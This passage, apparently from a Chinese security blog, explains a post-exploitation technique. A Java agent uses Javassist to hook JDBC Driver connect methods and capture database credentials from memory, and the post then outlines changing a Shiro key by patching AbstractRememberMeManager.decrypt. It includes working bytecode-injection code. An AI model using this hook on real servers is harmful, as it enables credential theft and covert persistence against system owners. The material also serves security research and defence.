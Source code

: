 这里简单说一下大致作用，具体得配合文章[从内存中Dump JDBC数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)才能看懂。

<font color=red>通过循环判断类clazz是否是**Driver.class**的子类、实现类，然后再ClassPool中加入clazz和clazz的类加载器。然后修改对应的connect方法代码，在前面加入自定义的代码。</font>

```java
 				// 判断类clazz是否是Driver.class的子类、实现类
                if (Driver.class.isAssignableFrom(clazz)){
                    ClassPool classPool = new ClassPool(true);
                    // 加入clazz的classpath
                    classPool.insertClassPath(new ClassClassPath(clazz));
                    // 加入类加载器
                    classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                    CtClass ctClass = classPool.get(clazz.getName());
                    // 获取类中的connect方法
                    CtMethod ctMethod = ctClass.getMethod("connect","(Ljava/lang/String;Ljava/util/Properties;)Ljava/sql/Connection;");
                    // 修改connect方法，再开头加入自定义代码
                    ctMethod.insertBefore(String.format("                    try {\n" +
                            "                        java.lang.Class.forName(\"%s\",true,java.lang.ClassLoader.getSystemClassLoader()).getMethod(\"add\", new java.lang.Class[]{java.lang.String.class, java.util.Properties.class}).invoke(null,new java.lang.Object[]{$1,$2});\n" +
                            "                    }catch (java.lang.Throwable e){\n" +
                            "                        e.printStackTrace();\n" +
                            "                        \n" +
                            "                    }",Main.class.getName()));

                    inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                    ctClass.detach();
                }
```

自定义的代码块调用了agent中的**Main.class**的**add**方法，之后的这块可以继续看北辰师傅文章[从内存中Dump JDBC数据库明文密码](https://mp.weixin.qq.com/s/QCfqO2BJuhSOr58rldZzxA)。<font color=red>总结一下，大概思路。首先通过agent将目标的接口或者是抽象类hook了，然后对其修改代码逻辑，从而实现的需要实现的目的。并且生成agent已经被北辰师傅集成了，我们无需考虑，这使得我们的工作内容大大的简化了。</font>





---

### shiro后渗透实现

现在我们能hook我们想要的所有类，并且也能修改其代码逻辑，加入自己想要的功能。比例说北辰师傅就调用了agent中Main.class的add方法。前面提到我们修改key的功能，并不是通用的，但agent的优势可以完美解决这个问题。



----

#### 修改shiro的key

在之前的博文中[shiro反序列化漏洞攻击拓展面–修改key](https://sumsec.me/2022/shiro%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%94%BB%E5%87%BB%E6%8B%93%E5%B1%95%E9%9D%A2--%E4%BF%AE%E6%94%B9key.html)提到，想要修改掉shiro的key就需要调用内存中的**AbstractRememberMeManager**对象。调用**AbstractRememberMeManager**对象的<font color=red>setCipherKey</font>方法，才能实现修改shiro的key的目的。最开始我的想法和北辰师傅一样，调用agent中的某一类的方法。但这导致了一个问题，在agent中，我们无法直接获取实例化**AbstractRememberMeManager**对象，但其实也有解决方法，使用深度优先算法获取实例化**AbstractRememberMeManager**对象。这也导致了实现变得很麻烦了，相比北辰师傅的实现就显得很笨重了。所以我放弃了这种方式，我将所有的代码逻辑都加入到**AbstractRememberMeManager**对象的**decrypt**方法，其实只需要添加一行代码即可非常的简单。
